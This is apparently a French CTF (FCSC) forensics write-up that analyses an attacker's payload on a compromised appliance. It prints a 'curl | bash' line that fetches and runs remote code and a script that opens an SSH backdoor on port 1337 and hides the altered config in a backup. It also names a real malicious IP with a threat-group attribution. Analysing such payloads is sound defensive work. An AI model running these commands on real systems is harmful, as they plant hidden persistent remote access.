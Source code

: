 > Le flag est au format : FCSC{<protocole>:<port>:<chemin_absolu>:<chemin_absolu>}

### Solution

My first reflex was to try to figure out was the lines of codes that we get right before do. I executed them (carefully and I take care that they execute nothing harmful)

I stopped the execution at the line ```c=`cat /tmp/c`;/home/bin/curl -k ${c} -s | bash``` and just execute ```c=`cat /tmp/c`;/home/bin/curl -k ${c} -s```. Then I display `c` :
```bash
sed -i 's/port 830/port 1337/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
sed -i 's/ForceCommand/#ForceCommand/' /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
echo "PubkeyAuthentication yes" >> /data/runtime/etc/ssh/sshd_server_config
echo "AuthorizedKeysFile /data/runtime/etc/ssh/ssh_host_rsa_key.pub" >> /data/runtime/etc/ssh/sshd_server_config
pkill sshd-ive > /dev/null 2>&1
gzip -d /data/pkg/data-backup.tgz > /dev/null 2>&1
tar -rf /data/pkg/data-backup.tar /data/runtime/etc/ssh/sshd_server_config > /dev/null 2>&1
gzip /data/pkg/data-backup.tar > /dev/null 2>&1
mv /data/pkg/data-backup.tar.gz /data/runtime/etc/ssh/sshd_server_confi > /dev/null 2>&1
```
So, the payload finally execute the following code which does the following actions :
- Replace the port used by ssh for the port 1337
- Comment the line `ForceCommand` and the ssh config
- Allow the authentication by public key
- Add a valid file for public key authentication for ssh
- decompress the archive `/data/pkg/data-backup.tgz`
- Append the modified config to the backup
- Zip the modified backup
- Replace the original backup by the modified backup
- All outputs are redirected to /dev/null so it should be complicated to view the output of these commands

So the flag is FCSC{ssh:1337:/data/runtime/etc/ssh/sshd_server_config:/data/runtime/etc/ssh/sshd_server_confi}

## Horreur, malheur 5/5 - Un peu de CTI
> Vous avez presque fini votre analyse ! Il ne vous reste plus qu'à qualifier l'adresse IP présente dans la dernière commande utilisée par l'attaquant.
>
> Vous devez déterminer à quel groupe d'attaquant appartient cette adresse IP ainsi que l'interface de gestion légitime qui était exposée sur cette adresse IP au moment de l'attaque.
>
>Le flag est au format : FCSC{<UNCXXXX>:<nom du service>}.
>
> Remarque : Il s'agit d'une véritable adresse IP malveillante, n’interagissez pas directement avec cette adresse IP.

### Solution 
> Note : I didn't find the entire solution

By looking at the script found in part.3, it's obvious that the IP should be 146.0.228.66. A quick search on internet make me think that the attacker is named under the code : UNC5221.
However, after investigation, I did't find the other part of the flag
***
*Write-up author : acmo0*